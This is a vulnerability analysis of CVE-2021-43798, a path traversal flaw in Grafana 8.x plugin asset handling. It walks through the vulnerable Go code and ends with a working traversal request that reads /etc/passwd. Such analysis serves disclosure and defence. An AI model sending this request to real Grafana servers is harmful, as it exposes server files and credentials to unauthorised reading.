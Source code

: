 # Grafana plugins arbitrary file reading vulnerability CVE-2021-43798

## Vulnerability Description

Grafana has a random file reading vulnerability. Through the default plug-in, a special request package can be constructed to read any file on the server.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Grafana 8.x</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1638885570573-25d2b257-36c8-43a7-bf8f-f552193f6649.png)

Download the source code for local analysis

```php
https://codeload.github.com/grafana/grafana/zip/refs/tags/v8.3.0
```

Find the request path in api.go based on the vulnerability

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1638885654432-3d019c1a-81fd-429d-9667-6c1e829b694e.png)

```php
r.Get("/public/plugins/:pluginId/*", hs.getPluginAssets)
```

Track the corresponding getPluginAssets method

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1638885718491-08933f1d-ee0f-4eaa-b5d7-859c4889d2b7.png)

The parameters after obtaining `/public/plugins/` from the request path are assigned to `pluginID,` and then splicing them to `pluginFilePath` to enter the file to read the fragment

```go
requestedFile := filepath.Clean(web.Params(c.Req)["*"])
pluginFilePath := filepath.Join(plugin.PluginDir, requestedFile)
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1638886241407-a47b7e8e-47fb-4481-8719-c532b51a5fa0.png)

That is to say, the file path construct request is spliced ​​through the default plug-in to read the file.

```go
plugin, exists := hs.pluginStore.Plugin(c.Req.Context(), pluginID)
if !exists {
		c.JsonApiErr(404, "Plugin not found", nil)
		return
	}
```

Plugin path `public/app/plugins/panel`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1638886549610-16b0f045-996a-4e0d-86db-4b6c83a3a989.png)

Construct request

```go
/public/plugins/welcome/../../../../../../../../../etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1638886726559-aa047e67-0bca-4b8c-bb07-4a9af6226e6e.png)